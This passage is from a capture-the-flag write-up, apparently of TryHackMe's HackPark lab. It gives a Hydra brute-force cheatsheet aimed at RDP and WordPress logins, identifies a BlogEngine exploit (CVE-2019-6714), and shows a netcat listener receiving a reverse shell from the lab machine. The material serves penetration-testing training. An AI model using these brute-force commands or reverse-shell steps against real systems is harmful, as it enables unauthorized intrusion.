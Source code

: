 `1qaz2wsx`

Hydra really does have lots of functionality, and there are many "modules" available (an example of a module would be the **http-post-form** that we used above).

However, this tool is not only good for brute-forcing HTTP forms, but other protocols such as FTP, SSH, SMTP, SMB and more.

Below is a mini cheatsheet:

| Command                                                                                                                                      | Description                                                                                                                                                        |
| -------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------ |
| hydra -P <wordlist> -v <ip> <protocol>                                                                                                       | Brute force against a protocol of your choice                                                                                                                      |
| hydra -v -V -u -L <username list> -P <password list> -t 1 -u <ip> <protocol>                                                                 | You can use Hydra to bruteforce usernames as well as passwords. It will loop through every combination in your lists. (-vV = verbose mode, showing login attempts) |
| hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>                                                                                      | Attack a Windows Remote Desktop with a password list.                                                                                                              |
| hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' | Craft a more specific request for Hydra to brute force.                                                                                                            |

`No answer needed`

## Task 3 Compromise the machine

In this task, you will identify and execute a public exploit (from [exploit-db.com](http://www.exploit-db.com/)) to get initial access on this Windows machine!

Exploit-Database is a CVE (common vulnerability and exposures) archive of public exploits and corresponding vulnerable software, developed for the use of penetration testers and vulnerability researches. It is owned by Offensive Security (who are responsible for OSCP and Kali)
undefined

Now you have logged into the website, are you able to identify the version of the BlogEngine?

`3.3.6.0`

Use the [exploit database archive](http://www.exploit-db.com/) to find an exploit to gain a reverse shell on this system.

What is the CVE?

`CVE-2019-6714`

Using the public exploit, gain initial access to the server.

[http://10.10.197.201/admin/app/editor/editpost.cshtml](http://10.10.197.201/admin/app/editor/editpost.cshtml)

Who is the webserver running as?

```
kali@kali:~/CTFs/tryhackme/HackPark$ nc -lnvp 9001
Listening on 0.0.0.0 9001

id
Connection received on 10.10.197.201 49260
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```
